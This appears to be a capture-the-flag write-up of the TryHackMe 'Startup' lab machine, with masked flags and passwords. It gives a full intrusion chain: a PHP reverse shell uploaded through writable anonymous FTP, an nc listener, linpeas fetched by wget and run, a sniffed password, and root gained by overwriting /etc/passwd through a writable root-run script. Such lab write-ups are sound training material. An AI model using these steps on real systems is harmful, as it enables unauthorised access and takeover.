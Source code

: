 # THM-Startup
https://tryhackme.com/room/startup

Last CTF (THM - mrrobot) took to much time, mainly because I oweranalyzed things.
This one i´m going to look for the easy solutions.

## Lets go!

## Starting with standard enumeration.
********
### Nmap (top 1000 ports with script scan)
```
nmap 10.10.225.190 -sC
PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst: 

22/tcp open  ssh
| ssh-hostkey: 
|   2048 b9a60b841d2201a401304843612bab94 (RSA)
|_  256 a2ff2a7281aaa29f55a4dc9223e6b43f (ED25519)
80/tcp open  http
|_http-title: Maintenance
```
We get that port 21, 22 and port 80 are open.
Because we used -sC we also get some extra info about FTP.
We can login as Anonumous and the ftp folder is writable.
We also get FTP and SSH server versions.
*************
### Dirbuster

```
dirb http://10.10.96.196 -w /usr/share/wordlists/dirb/common.txt

http://10.10.96.196/index.html
http://10.10.96.196/files/ftp/ 
```
Dirbuster shows that we can access the FTP folder from HTTP, **thats interesting** .
*******
### HTTP
The main web page is just a http file with nothing interesting.<br>
**But if we try the /files folder we get this!**<br>
![image](https://user-images.githubusercontent.com/93491173/216457959-4ac23f3e-f451-4385-82ff-23bda5fc37e2.png)<br>
The /ftp folder is empty.
*******
### FTP
The ftp folder writable, lets see what we can do with that.
We can start to upload pentestmonkey.php reverse shell.
```
ftp Anonymous@IPADRESS
no passwd

cd ftp
ftp> put
local: /home/kali/THM/Startup/Files/pentestmonkey.php remote: pentestmonkey.php
```
That worked fine, and its shows up in the browser.
*********
### Reverse shell
Lets try to get a revers shell running.
```
(local host) nc -nlvp 4444
```
Open the pentestmonkey.php in the web browser, we are connected!
*********
### Spawn a shell thru Python
Now we need a usable shell, let use Python to launch a shell.
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
**********
### The secret recipe
Read the file /recipe.txt
```
www-data@startup:/$ cat /recipe.txt
cat /recipe.txt
Someone asked what our main ingredient to our spice soup is today. 
I figured I can't keep it a secret forever and told him it was ****.
```
**********
### Linpeas (finding a weakness)
2 ways to get the Linpeas script oto the host.
1. 
```
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/download/20230205/linpeas.sh
chmod +x linpeas.sh
```

```
download to LHOST
start a http server on LHOST
python -m http.server 53

Download to RHOST
cd /tmp
wget http://LHOST-IP:53/linpeas.sh
chmod +x linpeas.sh
```
Now lets run Linpeas
```
www-data@startup:/tmp$ ./linpeas.sh
```
Here we can se a suspicius file **/incidents/suspicious.pcapng**
Transfere the file to the LHOST using the FTP folder.
```
Copy file to HTTP/FTP folder. 
cp /incidents/suspicious.pcapng /var/www/html/files/ftp/
Dowload the file from: 
http://RHOST/files/ftp/suspicius.pcapng
```
### Wireshark
Start Wireshark and load the suspicius.pcapng <br>
Look for some kind of terminal action. <br>
If we the follow the TCP connection we can se exacly what that user did, and what password he tried to use<br>
![image](https://user-images.githubusercontent.com/93491173/216831507-48ef88e4-9e90-4ca4-8d9b-cfe44d21862c.png) <br>
Right click that row, Follow, TCP connection.<br>
Then we can se this:
```
www-data@startup:/home$ sudo -l
sudo -l
[sudo] password for www-data: ***********
```
It looks like someone is trying to elevate but are using the wrong command. I think someone is trying to access something in lennies home folder, lets try lennie and that password first.
<br>
```
www-data@startup:/$ su lennie
su lennie
Password: **********
```
Great job, that worked fine.
### user.txt
Now its time to check out that user.txt flag.
```
lennie@startup:/$ cd /home/lennie
cd /home/lennie
lennie@startup:~$ ls
ls
Documents  scripts  user.txt
lennie@startup:~$ cat user.txt
cat user.txt
THM{**********}
```
### root(.txt)
Now its time to get access to the /root folder.<br>
In lennies folder there are a script folder.<br>
It contains planner.sh and startup_list.txt. <br>
planner.sh calls $LIST and adds it to plannet_list.txt and then run /etc/print.sh<br>
/etc/print.sh is writable and we can add any command that we want to run as root.<br>
if we add 
```
cat /root/root.txt 
```
we get the flag from root.txt.<br>

If we add this instead:
```
echo 'chmod ugo+rwx /etc/passwd' > /etc/print.sh
```
we will have full access to passwd.<br>
Now we can give our self root access.
```
cat /etc/passwd
```
Use cat output and make a new passwd on LHOST.
```
vi passwd 
change
lennie:x:1002:1002::/home/lennie:
to
lennie:x:0:0::/home/lennie:/bin/bash
[esc] 
:wq
```
This makes him member of root and gives him root access.<br>
Upload the file to RHOST, copy to /etc/passwd.
```
ftp Anonymous@IPADRESS
no passwd

cd ftp
ftp> put
local: passwd remote: passwd
cp /var/www/html/files/ftp/passwd /etc/passwd
```
### Login as root
First you need to logout<br>
And the login with root access
```
exit
www-data@startup:/$ su lennie
lennie
Password: *********
```
### You are now root!
